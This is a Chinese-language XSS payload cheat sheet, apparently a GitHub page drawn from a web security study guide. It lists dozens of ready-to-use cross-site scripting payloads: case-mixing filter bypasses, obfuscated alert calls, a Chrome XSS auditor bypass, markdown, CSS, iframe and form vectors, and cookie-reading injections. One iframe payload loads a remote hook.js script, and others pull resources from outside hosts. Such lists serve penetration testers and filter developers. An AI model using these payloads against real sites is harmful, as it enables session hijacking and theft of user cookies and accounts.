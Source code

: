 # XSS-Payload

> 来源于LyleMi的Web安全学习笔记，下面放上链接，推荐去阅读一下。
>
> Web安全学习笔记：https://github.com/LyleMi/Learn-Web-Hacking
>
> XSS-Payload页面：https://websec.readthedocs.io/zh/latest/vuln/xss/payload.html

## 常用

- `<script>alert(/xss/)</script>`
- `<svg onload=alert(document.domain)>`
- `<img src=document.domain onerror=alert(document.domain)>`
- `<M onmouseover=alert(document.domain)>M`
- `<marquee onscroll=alert(document.domain)>`
- `<a href=javascript:alert(document.domain)>M</a>`
- `<body onload=alert(document.domain)>`
- `<details open ontoggle=alert(document.domain)>`
- `<embed src=javascript:alert(document.domain)>`

## 大小写绕过

- `<script>alert(1)</script>`
- `<sCrIpT>alert(1)</sCrIpT>`
- `<ScRiPt>alert(1)</ScRiPt>`
- `<sCrIpT>alert(1)</ScRiPt>`
- `<ScRiPt>alert(1)</sCrIpT>`
- `<img src=1 onerror=alert(1)>`
- `<iMg src=1 oNeRrOr=alert(1)>`
- `<ImG src=1 OnErRoR=alert(1)>`
- `<img src=1 onerror="alert("M")">`
- `<marquee onscroll=alert(1)>`
- `<mArQuEe OnScRoLl=alert(1)>`
- `<MaRqUeE oNsCrOlL=alert(1)>`

## 各种alert

- `<script>alert(1)</script>`
- `<script>confirm(1)</script>`
- `<script>prompt(1)</script>`
- `<script>alert('1')</script>`
- `<script>alert("1")</script>`
- `<script>alert`1`</script>`
- `<script>(alert)(1)</script>`
- `<script>a=alert,a(1)</script>`
- `<script>[1].find(alert)</script>`
- `<script>top["al"+"ert"](1)</script>`
- `<script>top["a"+"l"+"e"+"r"+"t"](1)</script>`
- `<script>top[/al/.source+/ert/.source](1)</script>`
- `<script>top[/a/.source+/l/.source+/e/.source+/r/.source+/t/.source](1)</script>`

## 伪协议

- `<a href=javascript:/0/,alert(%22M%22)>M</a>`
- `<a href=javascript:/00/,alert(%22M%22)>M</a>`
- `<a href=javascript:/000/,alert(%22M%22)>M</a>`
- `<a href=javascript:/M/,alert(%22M%22)>M</a>`

## Chrome XSS auditor bypass

- `?param=https://&param=@z.exeye.io/import%20rel=import%3E`
- `<base href=javascript:/M/><a href=,alert(1)>M</a>`
- `<base href=javascript:/M/><iframe src=,alert(1)></iframe>`

## 长度限制 

```
<script>s+="l"</script>
\...
<script>eval(s)</script>
```

## jquery sourceMappingURL

```
</textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>
```

## 图片名

```
"><img src=x onerror=alert(document.cookie)>.gif
```

## 过期的payload

- src=javascript:alert基本不可以用
- css expression特性只在旧版本ie可用

## css

```
<div style="background-image:url(javascript:alert(/xss/))">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
```

## markdown

```
[a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
![a'"`onerror=prompt(document.cookie)](x)
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
```

## iframe

```
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```

- `<iframe src=javascript:alert(1)></iframe>`
- `<iframe src="data:text/html,<iframe src=javascript:alert('M')></iframe>"></iframe>`
- `<iframe src=data:text/html;base64,PGlmcmFtZSBzcmM9amF2YXNjcmlwdDphbGVydCgiTWFubml4Iik+PC9pZnJhbWU+></iframe>`
- `<iframe srcdoc=<svg/onload=alert(1)>></iframe>`
- `<iframe src=https://baidu.com width=1366 height=768></iframe>`
- `<iframe src=javascript:alert(1) width=1366 height=768></iframe`

## form

- `<form action=javascript:alert(1)><input type=submit>`
- `<form><button formaction=javascript:alert(1)>M`
- `<form><input formaction=javascript:alert(1) type=submit value=M>`
- `<form><input formaction=javascript:alert(1) type=image value=M>`
- `<form><input formaction=javascript:alert(1) type=image src=1>`

## meta

```
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">
```